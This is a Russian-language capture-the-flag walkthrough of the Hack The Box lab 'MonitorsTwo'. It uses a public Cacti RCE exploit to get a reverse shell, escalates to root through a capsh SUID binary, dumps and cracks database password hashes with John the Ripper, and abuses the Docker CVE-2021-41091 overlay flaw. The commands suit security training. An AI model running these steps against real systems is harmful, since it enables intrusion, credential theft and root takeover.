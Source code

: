 # MonitorsTwo
:white_check_mark:  [**Cacti 1.2.12 RCE**](#Cacti_1.2.12_RCE)

:white_check_mark:  [**Capsh SUID(privesc)**](#Capsh_SUID)

:white_check_mark:  [**Docker SUID / CVE-2021-41091**](#Docker_SUID)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV monitorstwo.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22
```

<a name="Cacti_1.2.12_RCE"></a>

## Cacti 1.2.12 RCE

Главная страница **stocker.htb**:

![](../assets/MonitorsTwo/1.png)

Мы можем обнаружить веб-приложение cacti версии 1.2.12. Найдем [эксплоит](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) для экплуатации уязвимости.

Настроим слушатель и запустим эксплоит командой:
```
python3 CVE-2022-46169.py -u http://TARGET_IP --LHOST=YOUR-IP --LPORT=YOUR-PORT 
```

Получаем обратную оболочку.

![](../assets/MonitorsTwo/2.png)

<a name="Capsh_SUID"></a>

## Capsh SUID(privesc)

Просмотрим файлы на наличие бита SUID:

```
find / -perm -u+s 2>/dev/null
```

![](../assets/MonitorsTwo/3.png)

На [сайте](https://gtfobins.github.io/gtfobins/capsh/) мы можем найти информации как эклуатировать данную уязвимость. Исполним команду для получения root:

```
capsh --gid=0 --uid=0 --
```

![](../assets/MonitorsTwo/4.png)

В корневой директории мы можем обнаружить файл entrypoint.sh. 

![](../assets/MonitorsTwo/5.png)

Просмотрим его содержимое:

```
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

![](../assets/MonitorsTwo/6.png)

Из содержимого данного файла мы можем понять, что мы можем обратиться к базе данных.

Просмотрим столбцы таблицы user_auth:

```
mysql --host=db --user=root --password=root cacti -e "SHOW COLUMNS FROM user_auth"
```

![](../assets/MonitorsTwo/7.png)

Просмотрим содержимое username и password:

```
mysql --host=db --user=root --password=root cacti -e "SELECT username, password FROM user_auth"
```

![](../assets/MonitorsTwo/8.png)

Мы получили хэши паролей.

Скопируем хэш пользователя marcus и расшируем его с помощью JohnTheRipper:

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![](../assets/MonitorsTwo/9.png)

Получаем пароль пользователя marcus.

Попробуем подключится по ssh. После успешного подключения закинем скрипт linpeas в /tmp директорию и запустим его. В выводе скрипта мы можем обнаружить следующее:

![](../assets/MonitorsTwo/10.png)

<a name="Docker_SUID"></a>

## Docker SUID / CVE-2021-41091

Просмотрим почту marcus-а перейдя в нужную директорию.

![](../assets/MonitorsTwo/11.png)

В данном письме говорится о нескольких уязвимостях. Найдем [эксплоит](https://github.com/UncleJ4ck/CVE-2021-41091) уязвимости CVE-2021-41091.

Прокинем его на данную машину и запустим.

В нем нас спросят, выставлен ли SUID на /bin/bash в docker контейнере. Отвечаем да. Скрипт не отработает но даст подсказку, в какой директории высталять SUID. Переходим в директорию **/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged** и выставляем SUID:

```
./bin/bash -p
```

Получаем root.